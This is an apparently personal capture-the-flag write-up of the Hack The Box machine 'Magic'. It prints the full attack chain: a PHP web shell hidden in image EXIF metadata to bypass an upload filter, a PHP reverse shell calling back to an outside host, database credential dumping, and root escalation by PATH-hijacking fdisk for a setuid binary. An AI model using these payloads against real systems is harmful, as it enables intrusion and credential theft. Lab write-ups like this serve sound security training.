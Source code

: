 ```yaml
---
title: "HTB Magic Write-up"
date: 2020-05-02T00:00:00-00:00
summary: A write-up for Magic on hackthebox.eu
---
```


A write up for another HTB machine, Magic.

Starting off with a port scan, I noticed a web server running and began enumerating directories with gobuster.

```text
root@kali:~# nmap -Pn 10.10.10.185

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```text
root@kali:~# ./gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/assets (Status: 301)
/upload.php (Status: 302)
```

Checking out the website a little bit, it appears to be some sort of image hosting application. The ability to upload images appears to be gated by `login.php`. I wasn’t able to view `upload.php` in my browser due to a redirect. However, after requesting the page with curl, I was able to view it locally.

```bash
curl http://10.10.10.185/upload.php > upload.html
```

After updating my pages href links and form to point back to `http://10.10.10.185`, the formatting returns. I am still redirected to the login page after trying to upload an image, which leads me to believe it didn’t work.

However, after seeing the paths of the images on the site’s main page `/images/uploads/<file>`, I tried navigating to where my image should be and it was indeed uploaded.

I immediately tried to upload a PHP web shell, but the file upload appears to only allow image file extensions. After doing a little reading on how to bypass file type restrictions, I had to do two things.

The first thing I needed to do was embed PHP code in my image’s metadata using `exiftool`. Here I’m embedding a simple PHP web shell in `image.png` comment field.

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.png
```

Second, we simply need to change the file extension type to `image.php.png`. After uploading our web shell, we can visit it and see that we have limited access with the `www-data` user.

```text
curl -o - http://10.10.10.185/images/uploads/image.php.png?cmd=whoami

<cipher text>
���2tEXtComment<pre>www-data
���
IDATx�Ѕa�@�=������L�Q   Ҏ����w��D$�->jϤ��
<cipher text>
```

Our output isn’t very elegant, so I’d like to upgrade my shell to make enumeration a little bit easier. I created a second `image2.php.png`, but this time I embedded a PHP reverse shell.

```text
exiftool -Comment='<?php $sock=fsockopen("10.10.14.15",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>' image.php.png
```

After uploading the second shell and setting up a local netcat listener, request the page to create the reverse shell. After receiving the connection, I use python to create a slightly friendlier shell.

```text
root@kali:~# nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.185] 57914
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

Once I was able to browse around with a shell, I immediately found a database file containing credentials for the local MySQL database, close to `www-data` home/working directory.
```text
www-data@ubuntu:/var/www/Magic$ cat db.php5
 
<?php
class Database
{                                                                                                                                                 
    private static $dbName = 'Magic' ;                                                                                                            
    private static $dbHost = 'localhost' ;                                                                                                        
    private static $dbUsername = 'theseus';                                                                                                       
    private static $dbUserPassword = 'iamkingtheseus';
<snip>
```

`netstat` revealed that a MySQL database is indeed listening. Normally, I would just use the mysql CLI client to connect, but it was not installed. I checked which mysql binaries were avilable and decided to simply dump the database.

```text
www-data@ubuntu:/var/www/Magic$ ls -lh /usr/bin|grep mysql
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_config_editor
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqladmin
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqldump
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlshow


www-data@ubuntu:/var/www/Magic$ mysqldump -u theseus -p Magic > dump.sql
```

A mysql dump will contain all of the database queries required to rebuild the database. In our case, the dump contained a set of credentials for another user, `theseus`.

```text
www-data@ubuntu:/var/www/Magic$ cat dump.sql
<snip>
-- Dumping data for table `login`
--
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<snip>

www-data@ubuntu:/var/www/Magic$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ whoami
theseus

theseus@ubuntu:/var/www/Magic$ cat ~/user.txt
<user_flag>
```

On to root privledge escalation, I added my keys and SSH’d as `theseus`. I was stuck for quite a bit and ended up relying on two enumeration scripts, `linpeas.sh` and `pspy64`.

https://github.com/DominicBreuker/pspy

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Linpeas highlighted `/bin/sysinfo` as concerning, but I didn’t immediately understand why.

```text
theseus@ubuntu:~$ sh linpeas.sh
<snip>
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
<snip>
```

I spent a long time running other enumeration scripts and trying to understand how sysinfo works. Eventually after understanding fdisk and while monitoring command activity with `pspy64`, I noticed that `/bin/sysinfo` was relying on the `PATH` to find `fdisk` when running.

I created my own `fdisk` executable, which simply spawns a PHP reverse shell, and added it’s location to my current path. Executing `/bin/sysinfo` spawns the reverse shell.

```text
theseus@ubuntu:~$ echo '$sock=fsockopen("10.10.14.15",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);' > fdisk
theseus@ubuntu:~$ chmod 755 fdisk
theseus@ubuntu:~$ export PATH=/home/theseus:$PATH
theseus@ubuntu:~$ /bin/sysinfo
<snip>
```

We catch the reverse shell with a local listener and can read the root flag.

```text
root@kali:~# nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.185] 57914
/bin/sh: 0: can't access tty; job control turned off

$ whoami
root

$ cat /root/root.txt
<root_flag>
```